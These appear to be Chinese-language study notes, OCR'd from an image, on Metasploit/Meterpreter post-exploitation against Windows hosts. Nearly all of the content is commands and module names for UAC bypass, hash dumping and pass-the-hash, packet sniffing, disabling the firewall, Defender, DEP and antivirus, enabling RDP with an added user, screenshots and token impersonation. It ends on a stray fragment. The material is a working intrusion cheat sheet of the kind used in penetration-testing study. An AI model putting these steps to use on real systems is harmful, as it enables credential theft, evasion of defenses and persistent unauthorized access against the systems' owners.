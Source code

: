# 概要

1. 权限提升：权限提升的集中方式
2. 信息收集：服务器信息、Hash、防火墙杀毒软件、账号密码
3. 内网渗透：端口转发、代理跳板
4. 后门植入：永久后门维持权限

# 权限提升

1. 提高程序运行级别
- Exploit/windows/local/ask

上面模块执行攻击以后，在靶机会弹出一个UAC对话框，当且仅当靶机管理员点击是（授权执行）以后才能收到提权的反弹shell，也就是说需要和管理员交互。

2. UAC绕过
- Exploit/windows/local/bypassuac
- Exploit/windows/local/bypassuac_injection
- Exploit/windows/local/bypassuac_vbs

上面模块不需要与靶机管理员交互，直接绕过UAC（执行成功以后需要再执行getsystem命令）

3. 利用本地提权漏洞进行提权

根据具体的系统环境，查找对应的本地系统提升漏洞

# 信息收集

信息收集相关
- 获取目标机器的分区情况：post/windows/gather/forensics/enum_drives
- 判断是否为虚拟机：post/windows/gather/checkvm
- 开启哪些服务：post/windows/gather/enum_services
- 安装了哪些应用：post/windows/gather/enum_applocations
- 查看共享：post/windows/gather/enum_shares
- 获取主机最近的系统操作：post/windows/gather/dumplinks
- 查看补丁：post/windows/gather.enum_applications
- scraper脚本
- winenum脚本

 
# 数据包捕获

抓包与解包
> 抓包

- 加载sniffer:load sniffer
- 查看网卡信息：sniffer_interface
- 开启监听：sniffer_start 1
- 导出数据包:sniffer_dump 1 1.cap

> 解包

- auxiliary/sniffer/psnuffle

# PassingTheHash
Hash 基础知识
windows系统下的hash密码格式为：

> 用户名称：RID：LM-HASH值：NT-HASH值


获取Hash值

- Hashdump
- Run post/windows/gather/smart_hashdump
- 检查权限和系统类型
- 检查是否是域控制器
- 从注册表读取hash、注入LSASS进程
- 如果是08server并具有管理员权限，直接getsystem尝试提权
- 如果是win7且UAC关闭并具有管理员权限，从注册表读取
- 03/xp直接getsystem,从注册表获取hash

Hash传递(直接用hash密文登录，前提是关闭了UAC)
- Pasexec: exploit/windows/smb/psexec


# 关闭防火墙及杀毒软件
> 关闭防火墙
- Netsh advfirewall set allprofiles state off (管理员及以上权限)

> 关闭Denfender
- Net stop windefend

> 关闭DEP
- Bcdedit.exe /set{current} nx AlwaysOff

> 关闭杀毒软件
- Run killav
- Run post/windwos/manage/killava

# 远程桌面

>开启远程桌面
- run post/windows/manage/enable_rdp
- run getgui -e

> 开启远程桌面并添加一个新用户bean:
- run getgui -u bean -p ean

>开启远程桌面并绑定在8888端口：
- run getgui -e -f 8888

>截图
- load espia
- screengrab

# 令牌假冒

什么是令牌假冒？
> 假冒令牌可以假冒一个网络中的另一个用户进行各类操作。 所谓的令牌：例如当一个用户登录系统，则它会被赋予一个访问令牌作为认证信息。 所以当一个攻击者需要域管理员的操作权限时候，需要通过假冒令牌方式进行入侵攻击。

> windows安全相关概念
- session
- windows station
- Desktop
- Login Session:不同账号登录产生不同的登录Session,代表不同的账号权限


>Tokens简介
- 与进程相关联，进程创建时根据LoginSession分配对应Token，含有该进程用户账号、组信息、权限信息等
- 用户每次登录，产生LoginSession分配对应Token
- 访问资源时提交Token进行身份验证，类似于web cookie
- Delegate Token：交互登录会话
- Impersonate Token：非交互登录会话



> Incognito
- 独立软件，被继承到msf的meterpreter中
- 不用获取账号密码窃取token将自己伪装成合法用户
- 适用于域环境下提权渗透多操作系统








看到第9